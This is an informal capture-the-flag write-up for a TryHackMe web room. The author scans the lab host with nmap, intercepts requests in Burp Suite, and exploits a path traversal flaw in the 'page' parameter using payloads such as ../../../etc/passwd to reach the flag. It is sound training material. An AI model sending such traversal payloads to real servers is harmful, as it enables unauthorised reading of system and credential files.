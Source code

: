 Want to hear some lo-fi beats, to relax or study to? We've got you covered!

Task 1

Want to hear some lo-fi beats, to relax or study to? We've got you covered! 

  

**Access this challenge** by deploying both the vulnerable machine by pressing the green "Start Machine" button located within this task, and the TryHackMe AttackBox by pressing the  "Start AttackBox" button located at the top-right of the page.

Navigate to the following URL using the AttackBox: [http://10.10.35.213](http://10.10.35.213/) and find the flag in the **root of the filesystem.**

  

Check out similar content on TryHackMe:

- [LFI Path Traversal](https://tryhackme.com/r/room/filepathtraversal)
- [File Inclusion](https://tryhackme.com/room/fileinc)

**Note:** The web page does load some elements from external sources. However, they do not interfere with the completion of the room.

Answer the questions below

Climb the filesystem to find the flag!

## Tools i used

1. nmap to scan target ip..i got firewall block so i used this..i fixed it later
```nmap -Pn 10.10.35.213```
2. burpsuit to capture web requests and modify and send them back
# STEPS_

first i used nmap scan and i got this results
```Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-20 01:06 EDT
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 28.97% done; ETC: 01:07 (0:00:07 remaining)
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 36.40% done; ETC: 01:07 (0:00:28 remaining)
Nmap scan report for 10.10.35.213
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.91 seconds

```
next i visited website to see it. and then i capture http and web requests by burpsuit and i found this
```GET /?search=ls HTTP/1.1

GET /?page=relax.php HTTP/1.1
Host: 10.10.35.213
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.35.213/?search=ls
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

i did small changes to see is there any hidden dir files..o change this part to various things like (../../../etc/passwd ../../../../../../etc/passwd)

```GET /?page===**relax.php**== HTTP/1.1```

and i found its vulnerable to ../../../etc/passwd.so i tried next ../../../flag.txt and found flag


## WHAT I LEARNED-

its important to think slow...from zero without going all the way hard methods 